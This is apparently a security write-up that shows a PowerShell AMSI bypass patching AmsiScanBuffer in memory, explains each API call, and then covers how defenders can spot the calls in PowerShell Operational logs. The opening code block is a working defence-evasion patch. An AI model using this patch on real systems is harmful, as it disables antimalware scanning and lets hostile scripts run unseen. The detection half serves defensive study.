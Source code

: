 ```

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

```

![image](https://user-images.githubusercontent.com/65976929/214714738-55510ee6-a0fa-4341-b523-a4d1b67d8613.png)

Just split and a little brief of the calls:
- ```LoadLibrary``` : load amsi.dll library
- ```GetProcAddress``` : retrieve the address of AmsuScanBuffer()
- ```VirtualProtect``` : to make the address region writable as by 
                 default it’s RX. We need to make it writable 
                 as well so that we can overwrite the instructions 
                 and later we’ll again make it to RX from RWX.
                 
---

Let's take a look from **Blue Team** perspective.
---

![1d2a708b97906e4faeb5099d8efa805f](https://user-images.githubusercontent.com/65976929/214939421-745460ab-35a7-4569-b83e-49dbca8a2d19.jpg)



Checking spawned processes (e.g. checking EventID 4688 "New Process Created") we can't see anything related about that.
But let's take a look about Powershell Operational logs (Microsoft-Windows-PowerShell%4Operational.evtx): we had something interesting, like Windows APIs calls.

![image](https://user-images.githubusercontent.com/65976929/214823890-5de207b6-a9bb-4e5e-a39e-6d79aa8d2171.png)

![image](https://user-images.githubusercontent.com/65976929/214823764-32f86795-01a6-4404-b2bc-671a67f3eeb3.png)

![VirtualProtect_0x40](https://user-images.githubusercontent.com/65976929/215766955-2d68cd9b-4622-4a37-9e7e-a845c58782fb.png)

as we can observed, on the VirtualProtect function is passed the "0x40" paremeters as memory protection constant.
VirtualProtect function is used to changes protection on a memory region. First parameters correspond to the lpAddress of $Address (AmsiScanBuffer). Int "5" as the size of the region whose access protection attributes are to be changed, in bytes. And $p (=0).

![VirtualProtect funciton](https://user-images.githubusercontent.com/65976929/215767510-cbdb8e29-e09e-40a7-9d49-7723917697d1.png)

Third parameters corresponds to the flNewProtect, the memory protection option that is setted to PAGE_EXECUTE_READWRITE

![Constants_Variables](https://user-images.githubusercontent.com/65976929/215768580-863a10b1-7dd7-4aae-9d15-bd6bf21078f8.png)
